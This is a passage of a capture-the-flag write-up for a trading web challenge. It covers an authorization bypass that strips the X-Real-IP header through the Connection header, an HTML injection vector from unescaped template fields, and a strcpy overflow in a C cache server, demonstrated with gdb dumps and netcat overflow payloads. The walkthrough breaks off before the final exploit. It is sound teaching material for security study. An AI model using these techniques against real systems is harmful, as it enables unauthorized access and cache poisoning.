

Reading through the advisory we find that it is possible to remove certain headers from being set, alongside them `X-Real-IP` too!



This is what a normal request looks like, but if we add `Connection: close, X-Real-IP` to it.



We can bypass authorization to the api and have access to cache functions as the `sys_admin` user.

## Taking a deeper look at the cache

Let's have a look at the cache api and how it's used to handle trades, the wrapper for the cache service is located at `src/application/util/cache.py`.

```py
class AetherCacheClient:
	def __init__(self):
    self.host = "127.0.0.1"
    self.port = 6379
    self.timeout = 5.0
    self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.sock.settimeout(self.timeout)
    self.connect()
```

Initializes the AetherCacheClient instance by setting up the connection parameters and establishing a socket connection to the cache server.

```py
def connect(self):
    try:
        self.sock.connect((self.host, self.port))
    except socket.timeout:
        return None
    except Exception as e:
        self.sock.close()
```

Establishes a connection to the cache server using the socket initialized in the __init__ method.

```py
def validate_input(self, text):
    if re.match(r"^[\x20-\x7E]+$", text):
        return True
    else:
        return False
```

Validates that the input text contains only printable ASCII characters (space to tilde).

```py
def send_command(self, command):
    try:
        self.sock.sendall(command.encode())
        response = self.sock.recv(1024).decode()
        return response.strip()
    except socket.timeout:
        return "ERROR: Request timed out."
    except Exception as e:
        return "ERROR"
```

Sends a command to the cache server and receives the response.

```py
def set(self, key, value):
    if self.validate_input(key) and self.validate_input(value):
        command = f"set {key} {value}\n"
        return self.send_command(command)
    else:
        return "ERROR: Invalid input. Command dropped."
```

Stores a key-value pair in the cache server after validating the inputs.

```py
def get(self, key):
    if self.validate_input(key):
        command = f"get {key}\n"
        response = self.send_command(command)
        if response == "NOT_FOUND" or "ERROR" in response:
            return None
        return response
    else:
        return None
```

Retrieves the value associated with a given key from the cache server.

```py
def list_keys(self):
    command = "list\n"
    response = self.send_command(command)
    if response.startswith("ERROR"):
        return []
    return response.splitlines() if response else []
```

Retrieves a list of all keys stored in the cache server.

```py
def migrate(self):
    signals = [
        {"symbol": "AAPL", "action": "buy", "price": "150.236"},
        {"symbol": "GOOGL", "action": "sell", "price": "2800.12"},
        {"symbol": "TSLA", "action": "buy", "price": "761.01"},
        {"symbol": "AMZN", "action": "sell", "price": "3321.10"},
        {"symbol": "NFLX", "action": "buy", "price": "550.67"}
    ]

    for signal in signals:
        signal_id = str(uuid.uuid4())
        signal_data = format_signal_data(signal["symbol"], signal["action"], signal["price"])
        self.set(f"signal:{signal_id}", signal_data)
```

Populates the cache server with predefined trading signal data.

## Taking a deeper look at the AetherCache binary

This program is a simple multi-threaded cache server implemented in C. It uses sockets for network communication, threads for handling multiple clients, and mutexes to synchronize access to shared resources. It's located at `cache/aetherCache.c`

```c
#define BUFFER_SIZE 1024
#define KEY_SIZE 256
#define VALUE_SIZE 256
#define MAX_ENTRIES 1000

typedef struct {
    char key[KEY_SIZE];
    char value[VALUE_SIZE];
} Entry;

Entry entries[MAX_ENTRIES];
int entry_count = 0;
pthread_mutex_t entry_mutex;
```

Here, `Entry` is a struct for storing key-value pairs. An array entries holds the cache's data, with a fixed limit of `MAX_ENTRIES`. The `entry_count` keeps track of the number of active entries. A `pthread_mutex_t` is initialized to manage concurrent access to the entries array.

```c
void print_header() {
    const char *header = "Aether Cache v4\n";
    printf("%s", header);
}
```

The `print_header()` function prints the server's name when the program starts.

```c
void pretty_print(const char *content, int log_type) {
    time_t rawtime;
    struct tm *timeinfo;
    char date_time[20];
    time(&rawtime);
    timeinfo = localtime(&rawtime);
    strftime(date_time, sizeof(date_time), "%m/%d/%Y, %H:%M", timeinfo);

    switch (log_type) {
        case 1:  // Success
            printf("\033[1;32m[+]\033[0m %s :: %s\n", date_time, content);
            break;
        case 2:  // Error
            printf("\033[1;31m[-]\033[0m %s :: %s\n", date_time, content);
            break;
        default: // Info
            printf("\033[1;34m[i]\033[0m %s :: %s\n", date_time, content);
            break;
    }
}
```

The `pretty_print()` function is used to log server actions in a colorful and formatted way.

```c
void set(const char *key, const char *value) {
    pthread_mutex_lock(&entry_mutex);
    for (int i = 0; i < entry_count; ++i) {
        if (strcmp(entries[i].key, key) == 0) {
            strcpy(entries[i].value, value);
            pthread_mutex_unlock(&entry_mutex);
            pretty_print("Updated existing key-value pair", 1);
            return;
        }
    }

    if (entry_count < MAX_ENTRIES) {
        strcpy(entries[entry_count].key, key);
        strcpy(entries[entry_count].value, value);
        entry_count++;
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Added new key-value pair", 1);
    } else {
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Error: maximum number of entries reached", 2);
    }
}
```

The `set()` function handles inserting or updating key-value pairs in the cache.
It first locks the mutex to ensure thread-safe access. If the key already exists, it updates the value. Otherwise, it adds a new entry if the array isn't full. Finally, it logs the action and releases the lock.

```c
char *get(const char *key) {
    pthread_mutex_lock(&entry_mutex);
    for (int i = 0; i < entry_count; ++i) {
        if (strcmp(entries[i].key, key) == 0) {
            pthread_mutex_unlock(&entry_mutex);
            return entries[i].value;
        }
    }
    pthread_mutex_unlock(&entry_mutex);
    return NULL;
}
```

The `get()` function retrieves values by key.
Similar to `set()`, it locks the mutex, searches for the key, and returns the value if found, unlocking before returning.

```c
void *handle_client(void *client_socket_ptr) {
    int client_socket = *(int *)client_socket_ptr;
    free(client_socket_ptr);
    char buffer[BUFFER_SIZE];
    ssize_t read_size;

    while ((read_size = recv(client_socket, buffer, BUFFER_SIZE - 1, 0)) > 0) {
        buffer[read_size] = '\0';
        char command[BUFFER_SIZE], key[BUFFER_SIZE], value[BUFFER_SIZE];

        if (sscanf(buffer, "set %s %s", key, value) == 2) {
            set(key, value);
            send(client_socket, "STORED\r\n", 8, 0);
        } else if (sscanf(buffer, "get %s", key) == 1) {
            char *result = get(key);
            if (result) {
                send(client_socket, result, strlen(result), 0);
                send(client_socket, "\r\n", 2, 0);
            } else {
                send(client_socket, "NOT_FOUND\r\n", 11, 0);
            }
        } else if (strcmp(buffer, "list\n") == 0) {
            print_all_keys(client_socket);
        } else {
            send(client_socket, "ERROR\r\n", 7, 0);
        }
    }

    close(client_socket);
    pretty_print("Client disconnected", 3);
    return NULL;
}
```

The `handle_client()` function processes incoming client commands.

It reads commands from the client, parses them, and calls the appropriate cache function (`set`, `get`, or `print_all_keys`). Responses are sent back to the client using `send()`.

```c
int main(int argc, char *argv[]) {
    print_header();

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <port>\n", argv[0]);
        return 1;
    }

    int port = atoi(argv[1]);
    int server_socket = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in server_addr, client_addr;
    socklen_t client_len = sizeof(client_addr);

    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(port);

    bind(server_socket, (struct sockaddr *)&server_addr, sizeof(server_addr));
    listen(server_socket, 3);

    pthread_mutex_init(&entry_mutex, NULL);

    while ((client_socket = accept(server_socket, (struct sockaddr *)&client_addr, &client_len))) {
        pthread_t client_thread;
        int *new_sock = malloc(sizeof(int));
        *new_sock = client_socket;
        pthread_create(&client_thread, NULL, handle_client, (void *)new_sock);
    }

    pthread_mutex_destroy(&entry_mutex);
    close(server_socket);
    return 0;
}
```

The `main()` function initializes the server and handles incoming connections.

This function parses the port from command-line arguments, creates a socket, binds it to the specified port, and listens for connections. For each client, it spawns a new thread to handle requests concurrently.

## Finding an html injection vector

There is alot of functionality going on, so let's try and think of attacks we can do now that we have access to the api as `sys_admin` and we have a better understanding of how the caching works.

```py
import time, schedule, threading

from application.app import app
from application.util.database import Database
from application.util.cache import AetherCacheClient
from application.util.bot import bot_runner

def run_flask_app():
    app.run(host="0.0.0.0", port=5000, threaded=True, debug=False)


if __name__ == "__main__":
    db_session = Database()
    db_session.migrate(app.config["ADMIN_EMAIL"], app.config["ADMIN_PASS"])

    cache_session = AetherCacheClient()
    cache_session.migrate()

    schedule.every(1).minutes.do(bot_runner, app.config)

    flask_thread = threading.Thread(target=run_flask_app)
    flask_thread.start()

    while True:
        schedule.run_pending()
        time.sleep(1)
```

Going back to the web application's entrypoint at `src/run.py` we can see that a schedule function call is set for every `1` minute. The function (`bot_runner`) that is imported and called is located at `src/application/utils/bot.py`.

```py
def bot_runner(config):
	chrome_options = Options()

	chrome_options.add_argument("headless")
	chrome_options.add_argument("no-sandbox")
	chrome_options.add_argument("ignore-certificate-errors")
	chrome_options.add_argument("disable-dev-shm-usage")
	chrome_options.add_argument("disable-infobars")
	chrome_options.add_argument("disable-background-networking")
	chrome_options.add_argument("disable-default-apps")
	chrome_options.add_argument("disable-extensions")
	chrome_options.add_argument("disable-gpu")
	chrome_options.add_argument("disable-sync")
	chrome_options.add_argument("disable-translate")
	chrome_options.add_argument("hide-scrollbars")
	chrome_options.add_argument("metrics-recording-only")
	chrome_options.add_argument("no-first-run")
	chrome_options.add_argument("safebrowsing-disable-auto-update")
	chrome_options.add_argument("media-cache-size=1")
	chrome_options.add_argument("disk-cache-size=1")

	chromedriver_path = "/usr/local/bin/chromedriver-linux64/chromedriver"
	service = Service(executable_path=chromedriver_path)
	client = webdriver.Chrome(service=service, options=chrome_options)

	client.get("http://127.0.0.1:1337/login")

	time.sleep(3)
	client.find_element(By.ID, "email").send_keys(config["ADMIN_EMAIL"])
	client.find_element(By.ID, "password").send_keys(config["ADMIN_PASS"])
	client.execute_script("document.getElementById('login-btn').click()")
	time.sleep(3)

	client.get(f"http://127.0.0.1:1337/my_trades")

	time.sleep(10)

	client.quit()
```

We see that it is an automated chrome process that logs in as an admin user and checks out his ongoing trades at `/my_trades`. So it might not be a bad idea to check out that endpoint again.

```py
@web.route("/my_trades", methods=["GET"])
@login_required
def my_trades():
	trade_data = fetch_cache("trades", session["api_token"])
	if "error" in trade_data:
		trade_data = None
	else:
		trade_data = trade_data["trades"]

	return render_template("my_trades.html", title="Live Signals", session_data=session, trades=trade_data)
```

We see that the trades based on the admin users token are fetched from the cache api using `fetch_cache` and are then fed through the rendering of `my_trades.html`. As we see at `src/application/util/general.py`.

```py
def fetch_cache(endpoint, token):
	endpoint = f"http://127.0.0.1:1337/api/{endpoint}"
	headers = {
		"Authorization": f"{token}",
		"Content-Type": "application/json"
	}
	
	try:
		response = requests.get(endpoint, headers=headers)
		response.raise_for_status()
		return response.json()
	except requests.exceptions.RequestException as e:
		return {"error": str(e)}
```

The `/api/trades` endpoint is udes to fetch data from the api with the `Authorization` token correlating to the one of the admin. 

```html



<div class="container-fluid dashboard-bg p-5 dark-theme-bg text-light">
    <div class="row mb-4">
        <div class="col-md-12">
            <div class="card shadow-sm dark-card">
                <div class="card-body">
                    <h3 class="card-title mt-3">My Trades</h3>
                    <hr>
                    
                        <table class="table table-dark table-hover table-bordered">
                            <thead>
                                <tr>
                                    <th>#</th>
                                    <th>Action</th>
                                    <th>Price</th>
                                    <th>Symbol</th>
                                    <th>Key</th>
                                </tr>
                            </thead>
                            <tbody>
                                
                                <tr>
                                    <td>{{ loop.index }}</td>
                                    <td>{{ trade.data.action | safe }}</td>
                                    <td>{{ trade.data.price | safe }}</td>
                                    <td>{{ trade.data.symbol | safe }}</td>
                                    <td>{{ trade.key }}</td>
                                </tr>
                                
                            </tbody>
                        </table>
                    
                        <h5>No active trades found.</h5>
                    
                </div>
            </div>
        </div>
    </div>          
</div>


```

Looking at `my_trades.html` we see that the `| safe` modifier is used for `trade.data.action`, `trade.data.price` and `trade.data.symbol`, this means that any data reflected from these variables will not be HTML encoded, hence opening up an HTML injection vector, if we could somehow influence the data coming from the cache.

## Memory corruption on AetherCache via global data overwrite

So now that we have the HTML injection vector, we need to find a way to influence cached trades opened by the admin user. Let's connect to the docker image to perform some debugging with the cache and using netcat to send commands to the cache.

```sh
docker exec -it web_nova_core bash
root@65c936961cd4:/# apt install netcat
Reading package lists... Done
Building dependency tree       

...

Setting up netcat (1.206-1ubuntu1) ...
root@65c936961cd4:/# 
```

Now let's connect to it and list all entries by using the `list` command.

```sh
root@65c936961cd4:/# nc 0 6379
list
signal:12a7bcd2-0fa1-4c1b-9caa-30e8e44ce10d
signal:944703a2-1e11-43cb-85a8-e6889a7406b7
signal:c0c253d6-6847-4a73-8429-a25099b57333
signal:1db1b1c8-bb1d-48eb-85d2-d4d7e4a0d106
signal:c797e475-4f3c-4aea-be4f-8b3d29295aa4
```

We see only the signals created from the `migrate` function of the cache wrapper.

We can try to create some trades using the cache api and the bypass.



We see that we copied the trade using a signal id.

```
list
signal:12a7bcd2-0fa1-4c1b-9caa-30e8e44ce10d
signal:944703a2-1e11-43cb-85a8-e6889a7406b7
signal:c0c253d6-6847-4a73-8429-a25099b57333
signal:1db1b1c8-bb1d-48eb-85d2-d4d7e4a0d106
signal:c797e475-4f3c-4aea-be4f-8b3d29295aa4
user:sys_admin:trade:ed7ff59d-f37a-46a2-9d1b-5923031eaf99
```

If we run `list` again we see that the trade has been created and it's user is set to `sys_admin`.

```
get user:sys_admin:trade:ed7ff59d-f37a-46a2-9d1b-5923031eaf99
symbol|AAPL|action|buy|price|150.236
```

We see the data format for the trades. We would need to influence both the key of the cache (to set it to the id of the admin user) and its contents (to add arbitrary html).

```
$ sqlite3 storage.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|364196813f3b746270a9b27bd76149c9@novacore.htb|$2b$12$mJzbDxv.Yoiz0EDFowEyFOofY6RRbKC9uW9/xKjLFplSUf3xM1c96|admin|ZwhszYTVXd5rZv7VAdYfUhp1P0l2xycX
```

If we open `storage.db` which is an sqlite database stored at root, we see that the id of the admin user is `1`.

```
user:1:trade:ed7ff59d-f37a-46a2-9d1b-5923031eaf99
```

So an arbitrary trade key would have to look something like this in order for it's contents to be seen by the admin bot.

```
symbol|AAPL|action|buy|price|<i>HTML injected</i>
```

And the HTML injection payload would have to conform to the format used, aka use the `|` character as a delimiter for `symbol`, `action` and `price`.

First thing we could think of to add arbitrary data is to perform an injection by introducing escape characters `\n` to a value or key used on the parameters of the cache wrapper.

```py
	def validate_input(self, text):
		if re.match(r"^[\x20-\x7E]+$", text):
			return True
		else:
			return False
	
	
	def send_command(self, command):
		try:
			self.sock.sendall(command.encode())
			response = self.sock.recv(1024).decode()
			return response.strip()
		except socket.timeout:
			return "ERROR: Request timed out."
		except Exception as e:
			return "ERROR"
	
	
	def set(self, key, value):
		if self.validate_input(key) and self.validate_input(value):
			command = f"set {key} {value}\n"
			return self.send_command(command)
		else:
			return "ERROR: Invalid input. Command dropped."
	
	
	def get(self, key):
		if self.validate_input(key):
			command = f"get {key}\n"
			response = self.send_command(command)
			if response == "NOT_FOUND" or "ERROR" in response:
				return None
			return response
		else:
			return None
```

However we see that all user input is validated using a regex `^[\x20-\x7E]+$` in the `validate_input` function. This regular expression is used to validate strings that are strictly limited to printable ASCII characters.

So no fancy escapes are to be found here.

Let's have a look again on how the memory the binary uses actually works.

```C
#define BUFFER_SIZE 1024
#define KEY_SIZE 256
#define VALUE_SIZE 256
#define MAX_ENTRIES 1000

typedef struct {
    char key[KEY_SIZE];
    char value[VALUE_SIZE];
} Entry;

Entry entries[MAX_ENTRIES];
int entry_count = 0;
pthread_mutex_t entry_mutex;
```

We see that a struct `Entry` is created and these entries are stored within the `entries` array. 

```
[ Entry 0 ]
| 0x1000 | username1 (key, 256 bytes) | 0x1100 | Alice (value, 256 bytes) |

[ Entry 1 ]
| 0x1200 | username2 (key, 256 bytes) | 0x1300 | Bob (value, 256 bytes)   |

[ Entry 2 ]
| 0x1400 | session_token_123 (key, 256 bytes) | 0x1500 | abc123xyz (value, 256 bytes) |

...

[ Entry MAX_ENTRIES - 1 ]
| 0x8000 | Empty (key, 256 bytes)    | 0x8100 | Empty (value, 256 bytes) |
```

Both of the keys and values have a maximum size of `256` bytes. 

```c
void set(const char *key, const char *value) {
    pthread_mutex_lock(&entry_mutex);
    for (int i = 0; i < entry_count; ++i) {
        if (strcmp(entries[i].key, key) == 0) {
            strcpy(entries[i].value, value);
            pthread_mutex_unlock(&entry_mutex);
            pretty_print("Updated existing key-value pair", 1);
            return;
        }
    }

    if (entry_count < MAX_ENTRIES) {
        strcpy(entries[entry_count].key, key);
        strcpy(entries[entry_count].value, value);
        entry_count++;
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Added new key-value pair", 1);
    } else {
        pthread_mutex_unlock(&entry_mutex);
        pretty_print("Error: maximum number of entries reached", 2);
    }
}
```

At the `set` function we see that the entries are filled using `strcpy`, however there is no bound check at all, so by setting a value or a key longer than `256` bytes is is possible to overwitte unitended memory locations, here's our vulnerability!

Now in order to do better debugging we will compile the program locally using `src/cache/compile.sh`.

```sh
#/bin/sh
gcc /cache/aetherCache.c -o /cache/aetherCache -lpthread -U_FORTIFY_SOURCE -fno-builtin -w
```

The we start it using `gdb` in order to check out the memory.

```sh
gdb aetherCache
```

We set a breakpoint to the `set` function.

```
(gdb) break set
Breakpoint 1 at 0x141e
```

And we start the process at port 6379.

```
(gdb) run 6379
Starting program: /tmp/aetherCache 6379
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Aether Cache v4
[i] 12/06/2024, 03:43 :: Cache server listening on port 6379
```

Now on another terminal we connect to the cache with netcat, and set a random value.

```
$ nc 0 6379
set random_value_key 5bed7f72fa1be8dcb72a0637c4b7c0de2f0a68a72defed7fd103392c67e59f4a
```

The breakpoint is hit.

```
[i] 12/06/2024, 03:44 :: Connection accepted
[New Thread 0x7ffff7c006c0 (LWP 473701)]
[Switching to Thread 0x7ffff7c006c0 (LWP 473701)]

Thread 2 "aetherCache" hit Breakpoint 1, 0x000055555555541e in set ()
```

Then we continue.

```
(gdb) continue
Continuing.
[+] 12/06/2024, 03:46 :: Added new key-value pair
```

We see that our key-value pair has been added, on the netcat connection we set another random value in order trigger the breakpoint again and to examine the memory.

```
set random_value_key2 8ad4f1d3654600e6493a215ab33ccd82da135c14ff0c0f1569134cc96351cbb2
```

Now we will print all variables in order to get the address of the `entries` array.

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x0000555555556000  _IO_stdin_used
0x00005555555561d4  __GNU_EH_FRAME_HDR
0x0000555555557de0  _DYNAMIC
0x0000555555557fe8  _GLOBAL_OFFSET_TABLE_
0x00005555555580f0  __data_start
0x00005555555580f0  data_start
0x00005555555580f8  __dso_handle
0x0000555555558100  __TMC_END__
0x0000555555558100  __bss_start
0x0000555555558100  _edata
0x0000555555558100  stderr
0x0000555555558100  stderr@GLIBC_2.2.5
0x0000555555558120  entries
0x00005555555d5120  entry_count
0x00005555555d5140  entry_mutex
0x00005555555d5168  _end
0x00007ffff7ff7400  __rseq_flags
0x00007ffff7ffc9d0  __rseq_size
0x00007ffff7ffc9d8  __rseq_offset

...

```

The address is `0x0000555555558120` so let's check that memory area.

```
x/256s 0x0000555555558120
0x555555558120 <entries>:       "random_value_key"
0x555555558131 <entries+17>:    ""
0x555555558132 <entries+18>:    ""
0x555555558133 <entries+19>:    ""

...

```

At the start of the `entries` location we see the name of the key we set.

```

...

x555555558218 <entries+248>:   ""
0x555555558219 <entries+249>:   ""
0x55555555821a <entries+250>:   ""
0x55555555821b <entries+251>:   ""
0x55555555821c <entries+252>:   ""
0x55555555821d <entries+253>:   ""
0x55555555821e <entries+254>:   ""
0x55555555821f <entries+255>:   ""
0x555555558220 <entries+256>:   "5bed7f72fa1be8dcb72a0637c4b7c0de2f0a68a72defed7fd103392c67e59f4a"
0x555555558261 <entries+321>:   ""
0x555555558262 <entries+322>:   ""
0x555555558263 <entries+323>:   ""
0x555555558264 <entries+324>:   ""
0x555555558265 <entries+325>:   ""
0x555555558266 <entries+326>:   ""

...

```

And after 256 - key_length bytes we see the value we set as expected.

```
(gdb) continue
Continuing.
[+] 12/06/2024, 04:06 :: Added new key-value pair
```

Now we continue again to add the second key-pair.

```
set test test
```

And we set a third one to rigger the breakpoint again.

```

...

0x55555555831e <entries+510>:   ""
0x55555555831f <entries+511>:   ""
0x555555558320 <entries+512>:   "random_value_key2"
0x555555558322 <entries+514>:   ""
0x555555558323 <entries+515>:   ""

...

```

And again 256 - key_length bytes after the start of the value of the first key, we see the name of the second key "random_value_key2".

```

...

0x55555555841d <entries+765>:   ""
0x55555555841e <entries+766>:   ""
0x55555555841f <entries+767>:   ""
0x555555558420 <entries+768>:   "8ad4f1d3654600e6493a215ab33ccd82da135c14ff0c0f1569134cc96351cbb2"
0x555555558461 <entries+833>:   ""
0x555555558462 <entries+834>:   ""
0x555555558463 <entries+835>:   ""
0x555555558464 <entries+836>:   ""

...

```

And after a while we see it's value. With this vulnerability we can only overwrite to memory after the address of the entry that is set, so in our case we can try something like this to see if we can overwrite parts of the next key-value pairs.

```sh
python3 -c "print('set random_value_key ' + 'a' * 512)" | nc 0 6379
```

We pipe the output of this simple python script to the cache connection.

```
list
random_value_key
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

And using the `list` command we see that we were able to overwrite the name of the second key.

```sh
python3 -c "print('set random_value_key ' + 'b' * 768)" | nc 0 6379
```

Now by adding even more bytes.

```
list
random_value_key
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
get bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```

We see that we are able to also overwrite the contents.

## Getting a reflection with cache poisoning

Now that we know where to hit, we must find an user input that would act as an entrypoint to the overflow and then we need to construct the exploit to conform to formatting and offsets.

In our case there is no present key-pair to overwrite, so what we need to do is to create two trades, and then use the first as a refrence to cause the overflow in order to change the user id and contents of the second one to contain the html injection.

```py
@api.route("/copy_signal_trade", methods=["POST"])
@token_required
def copy_signal_trade():
	if not request.json:
		return jsonify({"error": "No JSON data provided"}), 400

	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	data = request.json
	signal_id = data.get("signal_id")

	if not signal_id:
		return jsonify({"error": "Signal ID is required"}), 400

	signal_data = cache_session.get(f"signal:{signal_id}")
	if not signal_data:
		return jsonify({"error": "Signal not found"}), 404

	trade_id = str(uuid.uuid4())
	trade_data = signal_data
	cache_session.set(f"user:{user_id}:trade:{trade_id}", trade_data)

	return jsonify({"message": "Trade copied successfully", "trade_id": trade_id})
```

